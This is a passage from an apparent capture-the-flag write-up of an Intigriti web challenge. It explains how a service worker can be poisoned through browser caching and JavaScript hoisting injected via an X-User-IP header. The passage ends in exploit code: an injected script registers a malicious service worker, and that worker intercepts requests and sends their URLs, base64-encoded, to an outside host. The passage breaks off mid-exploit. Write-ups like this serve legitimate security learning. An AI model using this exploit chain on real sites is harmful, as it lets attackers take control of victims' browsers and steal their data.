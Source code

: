 Since the `userIp` is preceded by the `$` and `document`, we can use JavaScript hoisting to prevent reference errors.
We also need to adjust the parentheses to ensure correct syntax:

ref: https://developer.mozilla.org/en-US/docs/Glossary/Hoisting

```js
",}});var $,document;function $(){return{ready:f=>f()}}; <arbitrary code here> (() => { var a = {a:"`
```

`navigator.serviceWorker.register` does not allow us to directly modify the `X-User-IP` header.
Thus, I first used `fetch` to store the desired response in the browser's cache before attempting to register the Service Worker.

Through trial and error, I discovered that the following approach successfully forces `navigator.serviceWorker.register` to use the cached payload:

1. Register an initial Service Worker.
2. Cache the malicious response using a fetch request.
3. Wait a short period.
4. Re-register the Service Worker, which will now load from the cache.
```js
navigator.serviceWorker.register('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track', {scope:'/', updateViaCache: 'all'}).then(
  (registration)=>{
    fetch('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track&xyx', {
      headers: {'X-User-IP':'${sw_payload}'}, cache: "force-cache"});
});
setTimeout(()=>{navigator.serviceWorker.register('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track&xyx', {scope:'/', updateViaCache: 'all'})},3000);
```

This ensures that when the ServiceWorker is registered for the second time, it loads the cached malicious payload, executing the attack.

---

## PoC
Finally, I will present an exploit code that combines these elements to steal a secret.

```js
// exploit.js
const target = "https://challenge-0325.intigriti.io";

const sw_payload =  `",}});var $,document;function $(){return{ready:f=>f()}}; self.addEventListener("fetch", (event) => { if (event.request.url.includes("taise")) { event.respondWith( fetch("https://app.inugasky.net/?f=" + btoa(event.request.url))); } else { event.respondWith(fetch(event.request)); } }); (() => { var a = {a:"`
const note_payload = `
<script>
navigator.serviceWorker.register('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track', {scope:'/', updateViaCache: 'all'}).then(
  (registration)=>{
    fetch('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track&xyx', {
      headers: {'X-User-IP':'${sw_payload}'}, cache: "force-cache"});
});
setTimeout(()=>{navigator.serviceWorker.register('/view_protected_note.js?id=../xxxxx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track&xyx', {scope:'/', updateViaCache: 'all'}).then(
  (registration)=>{location.reload();}
)},3000);
</script>
<style>
`

let win;

```